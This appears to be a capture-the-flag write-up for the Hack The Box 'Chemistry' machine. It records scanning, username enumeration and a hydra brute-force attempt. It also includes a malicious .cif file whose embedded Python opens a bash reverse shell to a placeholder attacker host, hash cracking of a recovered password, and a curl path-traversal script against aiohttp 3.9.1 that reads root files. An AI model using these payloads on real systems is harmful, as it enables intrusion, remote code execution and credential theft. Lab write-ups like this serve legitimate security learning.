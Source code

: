 
[[HTB]] : [[Machines]]

**Date:** 08/01/25  
**Target IP:** 10.10.11.38

---

### **Initial Scanning**

**[[Nmap]] Results:**

- **22/tcp**: OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
- **5000/tcp**: Werkzeug httpd 3.0.3 (Python 3.9.5)

**Nikto Scan:**

- Detected outdated Python version: **3.9.5** (latest is at least 3.9.6).

---

### **Exploration and Enumeration**

**Port 5000 (HTTP):**

- Navigated to the website hosted on port 5000.
- Found **Login** and **Register** pages.
- Discovered a vulnerability on the **Register page**:
    - "User exists" prompt enables **username enumeration**.
    - Confirmed the existence of the `admin` user.

---

### **Exploitation**

1. **Brute Forcing Login:**
    
    - Attempted brute forcing with [[hydra]] :
        
        ```
        hydra -l admin -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt 10.10.11.38 -s 5000 http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials" -I -vV
        ```
        
    - Brute forcing was unsuccessful.
2. **File Upload Vulnerability:**
    
    - Registered a new user and accessed a file upload functionality for `.cif` files.
    - Exploited a known vulnerability in `.cif` file handling in Python:
        - Reference: [GHSA-vgv8-5cpj-qj2f](https://github.com/advisories/GHSA-vgv8-5cpj-qj2f)
    - Uploaded a malicious `.cif` file to execute a **bash reverse shell**.
    
    **Malicious .cif File Content:**
    
    ```plaintext
	data_5yOhtAoR
	_audit_creation_date            2018-06-08
	_audit_creation_method          
	
	loop_
	_parent_propagation_vector.id
	_parent_propagation_vector.kxkykz
	k1 [0 0 0]
	
	_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<attacker ip>/1234 0>&1\'");0,0,0'
	
	
	_space_group_magn.number_BNS  62.448
	_space_group_magn.name_BNS
    ```
    
    - Launched a **Netcat listener** (`nc -nvlp 1234`) to capture the reverse shell.

---

### **Post-Exploitation**

1. **Access Gained:**
    
    - Obtained access to the `app` user via the reverse shell.
2. **App Enumeration:**
    
    - Found sensitive information in `app.py`:
        - Flask secret key: `MyS3cretCh3mistry4PP`
        - SQLite DB URL: `sqlite:///database.db`
    - Transferred the database file to the local machine using a Python HTTP server.
3. **Database Analysis:**
    
    - Analyzed the SQLite database using an online viewer ([SQLite Viewer](https://inloop.github.io/sqlite-viewer/)).
    - Found a table with MD5-hashed passwords:
        - `63ed86ee9f624c7b14f1d4f43dc251a5` (hash for the `rosa` user).
4. **Password Cracking:**
    
    - Cracked the hash using `hashcat`:
        
        ```
        hashcat -m 0 -a 0 rosa_hash /usr/share/wordlists/rockyou.txt
        ```
        
        - **Cracked Password:** `unicorniosrosados`
5. **SSH Access to `rosa`:**
    
    - Logged in via SSH:
        
        ```
        ssh rosa@10.10.11.38
        ```
        
    - Retrieved the user flag:
        
        ```
        rosa@chemistry:~$ cat user.txt
        e5778c455c79cd3b24a14dc42cd897b7
        ```
        

---

### **Privilege Escalation**

1. **Port Forwarding:**
    
    - Discovered a service running on **localhost:8080**.
    - Forwarded the port:
        
        ```
        ssh -L 4321:localhost:8080 rosa@10.10.11.38
        ```
        
    - Accessed an analytics page with a server banner indicating:
        - `aiohttp/3.9.1`
2. **File Disclosure Exploit:**
    
    - Identified a vulnerability in `aiohttp/3.9.1`.
        - Reference: [CVE-2024-23334-PoC](https://github.com/z3rObyte/CVE-2024-23334-PoC)
    - Modified the exploit to fetch `/root/root.txt`.
    
    **Exploit Script:**
    
    ```bash
    url="http://localhost:8080"
    payload="/assets/"
    file="root/root.txt"
    
    for ((i=0; i<15; i++)); do
        payload+="../"
        status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
        if [[ $status_code -eq 200 ]]; then
            curl -s --path-as-is "$url$payload$file"
            break
        fi
    done
    ```
    
3. **Root Flag Obtained:**
    
    - Successfully retrieved the root flag:
        
        ```
        25eeadc405adda911ccb96789fc5b82f
        ```
        

---

### **Summary**

- **User Flag:** `e5778c455c79cd3b24a14dc42cd897b7`
- **Root Flag:** `25eeadc405adda911ccb96789fc5b82f`
- **Key Vulnerabilities Identified:**
    - Username enumeration on the Register page.
    - File upload vulnerability allowing remote code execution.
    - Outdated `aiohttp` version with file disclosure vulnerability.
